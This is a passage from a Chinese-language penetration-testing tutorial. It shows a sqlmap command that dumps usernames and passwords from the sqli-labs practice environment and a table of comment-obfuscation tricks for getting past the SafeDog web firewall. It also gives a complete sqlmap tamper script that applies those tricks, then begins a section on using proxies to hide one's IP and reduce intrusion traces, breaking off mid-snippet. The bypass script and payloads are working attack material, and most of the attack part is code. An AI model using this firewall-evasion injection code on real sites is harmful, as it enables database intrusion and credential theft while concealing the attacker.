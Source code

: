 ```python
```
最后执行即可绕过过滤
`python3 sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-26/?id=1 --tamper "double-and-or.py,space2A0.py,count.py" -D security -T users -C "username,password" --dump -v 3 --batch`
![](https://img-blog.csdnimg.cn/20201229125734222.png)

### 绕过安全狗
|被过滤的关键字|			绕过方法|
|----|----|
|空格 		|			`/*!*/`|
|=					|	`/*!*/=/*!*/`|
|AND					|	`/*!*/AND/*!*/`|
|UNION			|		`union/*!88888cas*/`|
|#				|		`/*!*/#`|
|USER() 		|			`USER/*!()*/`|
|DATABASE()		|		`DATABASE/*!()*/`|
|--				|		`/*!*/--`|
|SELECT			|		`/!88888cas*/select`|
|FROM 				|	`/*!99999c*//*!99999c*/from`|

编写一个Tamper脚本：
```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
from lib.core.settings import UNICODE_ENCODING

__priority__ = PRIORITY.NORMAL

def dependencies():
	pass

def tamper(payload, **kwargs):
	if payload:
		payload = payload.replace("UNION","union/*!88888cas*/")
		payload = payload.replace("--","/*!*/--")
		payload = payload.replace("SELECT","/*!88888cas*/select")
		payload = payload.replace("FROM","/*!99999c*//*!99999c*/from")
		payload = payload.replace("#","/*!*/#")
		payload = payload.replace("USER()","USER/*!()*/")
		payload = payload.replace("DATABASE()","DATABASE/*!()*/")
		payload = payload.replace(" ","/*!*/")
		payload = payload.replace("=","/*!*/=/*!*/")
		payload = payload.replace("AND","/*!*/AND/*!*/")

	return payload
```
### 网络代理
网络代理的用途广泛，常用于代理爬虫，代理VPN，代理注入等。使用网络代理能够将入侵痕迹进一步减少，能够突破自身IP的访问限制，提高访问速度，以及隐藏真实IP，还能起到一定的防止攻击的作用。
Python的代理有多种用法，本节介绍常见的几种：Urllib代理、requests代理
[泥马ip代理官网](http://www.nimadaili.com/)
Urllib代理的设置包括设置代理的地址和端口，访问测试的网址进行测试，会返回访问的IP地址，如果返回的IP是代理IP，则说明是通过代理访问的
```python
from urllib.error import URLError
from urllib.request import ProxyHandler,build_opener

proxy='185.127.126.222:80'  #代理地址
```
